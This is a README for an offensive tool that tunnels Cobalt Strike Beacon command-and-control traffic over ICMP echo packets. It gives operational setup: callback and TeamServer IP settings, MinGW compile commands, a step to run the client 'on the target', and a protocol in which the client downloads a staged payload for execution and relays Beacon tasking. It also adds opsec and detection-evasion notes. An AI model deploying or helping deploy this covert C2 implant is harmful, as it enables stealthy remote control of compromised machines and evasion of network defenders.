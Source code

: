 # ICMP C2 Protocol Overview

An ICMP channel for Beacons, implemented using Cobalt Strike’s External C2 framework.

Blog Post here: [CobaltStrike ICMP Tunnel/](https://ryanq47.github.io/posts/CobaltStrike_ICMP_Tunnel/)

And a demo video here:


## Key Concepts

- **ICMP Echo Request (Type 8)**: Used by the client (“agent”) to signal the server (“controller”) and request data.
- **ICMP Echo Reply (Type 0)**: Used by the controller to embed and send replies (including large payloads) back to the client.
- **TAG (4 bytes)**: A fixed 4‐byte marker (e.g. `RQ47`) prepended to every ICMP payload, so that unrelated OS pings or network noise are ignored.
- **ICMP_PAYLOAD_SIZE (default 1000 bytes)**: Defines how many bytes we can carry in each ICMP packet’s data‐field. In both `controller.py` and `client_x86.c`, this is set to 1000 by default.  
    > Opsec: Windows default payload size is 32 bytes, where UNIX is 52. 
- **Chunking**: When the controller needs to send more data than fits in a single ICMP payload (1000 bytes), it splits the payload into fragments of up to **996** bytes each (ICMP_PAYLOAD_SIZE – TAG_SIZE = 1000 – 4). Each fragment still carries the same 4‐byte tag.

---

# Setup:

1. **Install dependencies:**

   ```bash
   sudo apt install libpcap0.8-dev
   ```

   ```bash
   pip install -r Controller/Python/requirements.txt
   ```

2. **Start an External C2 beacon in Cobalt Strike (TeamServer).**

3. **Edit the following fields in these files to fit your enviornment:**

   - **`Controller/Python/controller.py`:**
     ```python
     TEAMSERVER_IP   = "10.10.10.21"  # Change to your TeamServer’s IP (e.g. 127.0.0.1 if running locally)
     TEAMSERVER_PORT = 2222          # Change to TeamServer’s listening port
     # (These must stay in sync with how your Beacon is configured.)
     ICMP_TAG = "RQ47"              # The ICMP tag, MUST match client

     BEACON_PIPENAME = "foobar"     # Name of pipe to communicate over between the Beacon & Client
     BEACON_ARCH = "x86"            # what architecture is the client - used for payload generation
     ```
   - **`client_x86.c`:**
     ```c
     #define ICMP_CALLBACK_SERVER "172.19.241.197"  // Change to your Controller’s IP
     #define ICMP_PAYLOAD_SIZE      1000           // Must match controller.py‘s ICMP_PAYLOAD_SIZE
     #define ICMP_TAG               "RQ47"         // 4‐byte tag (can be changed, but must match controller)
     #define PIPENAME               "\\\\.\\pipe\\foobar"  // Named pipe as configured by the Controller’s pipename
     ```

   There are other tunable constants in both files (e.g. `SLEEP_TIME` in the client, `PIPENAME`, etc.). Review each file’s top‐section comments for details.

4. **Compile the client (Windows build target):**

   ```bash
   i686-w64-mingw32-gcc client_x86.c -o client_x86.exe -lws2_32
   ```
   > You may also try a 64-bit MinGW compile (`x86_64-w64-mingw32-gcc ...`) but only the 32-bit build has been fully tested.

5. **Run the controller:**

   ```bash
   python3 Controller/Python/controller.py
   ```

6. **Run the compiled client on the target:**

   ```bash
   client_x86.exe
   ```

---

## Overall Flow

1. **Client: “Seq 0” Size Request**  
   - The client opens a raw ICMP socket.  
   - It builds an ICMP Echo Request (Type 8) whose payload is:
     ```
     [TAG (4 bytes)] [4-byte big-endian integer: total_bytes_expected]
     ```
     and sends it with **sequence number 0**.  
   - Purpose: inform the controller how many bytes of data it plans to receive.

2. **Controller: Immediate “Seq 0” Reply (Size Confirmation)**  
   - The controller’s sniffer sees an ICMP packet where:
     - Type == 8 (Echo Request)  
     - Payload starts with `TAG`  
     - Sequence == 0  
   - It extracts the 4-byte length, allocates a receive buffer of that size, and immediately responds with an ICMP Echo Reply (Type 0), also with **sequence 0**. Its payload is:
     ```
     [TAG (4 bytes)] [4-byte big-endian integer: total_bytes_to_send]
     ```
   - This confirms to the client that the server is ready to send exactly that many bytes.

3. **Controller: Sending Data Fragments (Seq 1…N)**  
   - If the data to send exceeds **1000 bytes**, the controller splits it into fragments of up to **996** bytes each (ICMP_PAYLOAD_SIZE – TAG_SIZE).  
   - For each fragment **i** (starting at 1), the controller sends an ICMP Echo Reply (Type 0) with:
     ```text
     Sequence = i
     Payload  = [TAG][next 996 bytes of data]
     ```
   - If the full payload fits within one chunk (≤ 996 bytes of data), only **seq 1** is used. Otherwise, multiple replies arrive in sequence.

4. **Client: Reassembly Loop**  
   - After sending “seq 0” and waiting, the client’s raw socket filters incoming packets, accepting only:
     - ICMP packets of Type 0 (Echo Reply)  
     - Matching its own process ID  
     - Payload beginning with `TAG`  
   - When **seq 0** arrives, the client reads the 4-byte length, allocates a buffer, and computes how many fragments it expects:
     ```
     data_per_chunk = ICMP_PAYLOAD_SIZE – TAG_SIZE  # = 1000 – 4 = 996
     total_chunks   = ceil(total_size / 996)
     ```
   - For each subsequent reply **seq = 1…total_chunks**, the client copies the data portion (i.e., the bytes after the 4-byte TAG) into the correct offset in the buffer. Once all fragments are received, the full payload is ready for execution or further processing.

5. **Beaconing & TeamServer Forwarding (Seq > 0)**  
   - After the initial C2 payload, the client may send extra frames (e.g., Beacon or task data). Each of these is sent as an ICMP Echo Request (Type 8) with:
     ```
     Sequence = X (> 0)
     Payload  = [TAG][user_data…]
     ```
   - The controller, upon spotting **seq > 0**, strips `TAG` and forwards the remaining bytes to the TeamServer over a TCP socket.  
   - Any response from the TeamServer is sent back in a single ICMP Echo Reply (Type 0) with:
     ```
     Sequence = X
     Payload  = [TAG][TeamServer_response]
     ```
   - This ensures a 1:1 mapping of in‐flight Beacon frames to replies, using the same sequence number to correlate.

---

## Packet Structure Summary

> **Constants** (both sides):
> ```text
> ICMP_PAYLOAD_SIZE = 1000      # bytes available for data+TAG
> TAG_SIZE          = 4         # bytes (e.g. “RQ47”)
> MAX_DATA_PER_CHUNK = 1000 – 4 = 996  # actual data per chunk
> ```
>
> **Note**: The 4-byte TAG is always the first 4 bytes of every payload, so each chunk’s data is at most 996 bytes.

- **Client → Controller (Seq 0)**  
  ```text
  IP Header      : 20 bytes
    └─ ICMP Header  : 8 bytes   (Type=8, Code=0, ID=<PID>, Seq=0)
        └─ Payload   : 1000 bytes total
              [ “RQ47” ][ 4-byte total_size ][ padding… (up to 992 bytes) ]
  ```

- **Controller → Client (Seq 0 Reply)**  
  ```text
  IP Header      : 20 bytes
    └─ ICMP Header  : 8 bytes   (Type=0, Code=0, ID=<PID>, Seq=0)
        └─ Payload   : 1000 bytes total
              [ “RQ47” ][ 4-byte total_size ][ padding… (up to 992 bytes) ]
  ```

- **Controller → Client (Seq i Reply)**  
  ```text
  IP Header      : 20 bytes
    └─ ICMP Header  : 8 bytes   (Type=0, Code=0, ID=<PID>, Seq=i)
        └─ Payload   : ≤ 1000 bytes
              [ “RQ47” ][ up to 996 bytes of data ]
  ```

- **Client → Controller (Seq i Request, after C2 payload)**  
  ```text
  IP Header      : 20 bytes
    └─ ICMP Header  : 8 bytes   (Type=8, Code=0, ID=<PID>, Seq=i)
        └─ Payload   : ≤ 1000 bytes
              [ “RQ47” ][ up to 996 bytes of Beacon/command data ]
  ```

- **Controller → Client (Seq i Reply, TeamServer data)**  
  ```text
  IP Header      : 20 bytes
    └─ ICMP Header  : 8 bytes   (Type=0, Code=0, ID=<PID>, Seq=i)
        └─ Payload   : ≤ 1000 bytes
              [ “RQ47” ][ TeamServer response data ]
  ```

---

<!-- ## Advantages & Caveats

- **Quietness**: Leverages legitimate ICMP traffic.
- **Minimal Dependencies**: Only raw sockets (client) and basic Scapy (controller) are needed.
- **Fragility**: No built-in session encryption or integrity checks—relying solely on the 4-byte TAG for filtering.
- **IDS/Firewall Risk**: Large or unusual ICMP payloads may trigger alerts. We chunk at 996 bytes to avoid IP‐level fragmentation, but the TAG may still look suspicious.

---

## Usage Notes

1. **Client setup**: Must run as an administrator (Windows) to open a raw ICMP socket, or as root (Linux) if you port the code there.
2. **Controller setup**: Needs elevated privileges to sniff/send raw ICMP (via Scapy).
3. **Tag matching**: Both sides ignore any ICMP not starting with `RQ47`. This prevents OS‐generated pings from disrupting the reassembly logic.
4. **Timeouts**: The client’s `recv_icmp_fragments()` has no explicit timeout per‐packet, so if fragments never arrive, it will block indefinitely. You may want to add a `setsockopt(..., SO_RCVTIMEO, ...)` or similar.
5. **TeamServer traffic**: After the initial C2 payload is delivered, any “seq > 0” ICMP Echo Requests are forwarded to the TeamServer over a plain TCP connection; replies come back in Echo Replies.
 -->
